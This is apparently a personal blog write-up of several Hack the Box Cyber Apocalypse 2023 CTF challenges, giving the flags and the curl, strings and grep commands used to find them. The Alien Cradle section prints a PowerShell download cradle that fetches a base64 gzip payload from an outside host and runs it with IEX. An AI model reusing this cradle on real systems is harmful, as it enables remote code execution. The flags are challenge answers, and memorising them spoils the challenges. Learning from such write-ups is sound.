 ```yaml
---
title: Hack the Box Cyber Apocalypse CTF 2023
date: 2023-03-23 
categories: [ctf, writeup, htb, jeopardy]
tags: [forensics, hardware, misc, pwn, web, warmup, python, curl]
---
```


# Hack the Box Cyber Apocalypse 2023 Complete! (≧∇≦)ﾉ

Cyber Apocalypse 2023 was a jeopardy style CTF spanning multiple categories such as: forensics, hardware, pwn, misc, web, machine learning, blockchain and cryptography.

This is my first CTF that I have entered though I continue to complete rooms on TryHackMe, using the HTB Academy and working through the PicoCTF Gym.
I've come to understand during this short experience - there's nothing quite like a live CTF. I hope to continue doing CTFs in future, at least, as much as time allows.

(Will be adding more over time).
- **Posts Added:** trapped source, persistence, plaintext tleasure, alien cradle
- **Posts to follow:** getting started, initialise connection, questionnaire, critical flight, debut, timed transmission, and extraterrestrial persistence


## Warmup

-------------------------

This was a fun little flag to be had after joining the Hack the Box discord. It was hiding in the announcements section as:

``` text
HTB{l3t_th3_tr3asur3_hunt1ng_b3g1n!}
```

## Trapped Source (web)
--------------------

This was a pretty straightforward and these were the steps I took for this challenge:

- Viewed the page source (Ctrl + U or Right-Click + View Page Source)
- Scanned the page for any mention of the HTB flag format HTB{...}
- No flag text present, so I checked for any scripts available
- Found a script named "correctPin" and tried the code "8291"
- Got the flag! 


``` text
HTB{V13w_50urc3_c4n_b3_u53ful!!!}
```


## Persistence (misc)
-------------------

First, I'll say, what a fitting name for this challenge 🤣

At the moment I don't know much about web-based challenges and incorrectly approached this at first. I read the question carefully and soon realised that the page needed to be accessed many, *MANY*  times (around 1000 as per the description).

There may be many ways to approach this, but I used what I knew, which was the handy tool called **cURL**.

At first, I tried to simply use the given url with curl, like so:

``` bash
$ curl ip-address:port/flag
```

And received a garbled string as a result. I knew that it was working, but it wouldn't do to simply repeat this request. So I looked up how to replicate the result continuously.

``` bash
$ while true; do curl ip-address:port/flag; done 
```

Great! This was working as well, but I needed to save the output somewhere:

``` bash
$ while true; do curl --output >(cat >> filename) ip-address:port/flag; done 
```

And after some long time later, a flag appears!
We can view it like so, piping it to grep:

``` bash
$ cat filename | grep "HTB{"
```

Getting the following output:
``` text
HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}
```

## Plaintext Tleasure (forensics)
------------------------------------------------------

This challenge had to be downloaded and contained a zip file, which can easily opened with the following command:

``` bash
$ unzip filename.zip
```

The extract file is named "capture.pcap". which I confirm with the *file* command.
Before searching through the file in its entirety, I decide to try basic commands and see if the flag can be found this way and this is the line which worked:

``` bash
$ strings capture.pcap | grep "HTB{"
```

We get the flag:

``` text
HTB{th3s3_4l13ns_st1ll_us3_HTTP}
```

## Alien Cradle (forensics)
----------------------------------------------------------

We are provided with a zipped folder containing a Powershell script. I confirm the contents:

``` shell
$ file cradle.ps1 

# cradle.ps1: ASCII text, with very long lines (618), with no line terminators
```

Knowing that a lot of text exists within this file, I consider the following command:

``` bash
$ strings cradle.ps1

# if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The flag is hiding within the post, separated in such a manner that the usual 'trick' of "HTB{" won't suffice here, so it was a good choice to check the contents with *strings*  first.

There probably is a more efficient way to extract the flag from this text, but for now, I simply copied the relevant ouput and cleaned it up as per the flag ruling:

``` text
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

## Extraterrestrial Persistence (forensics)



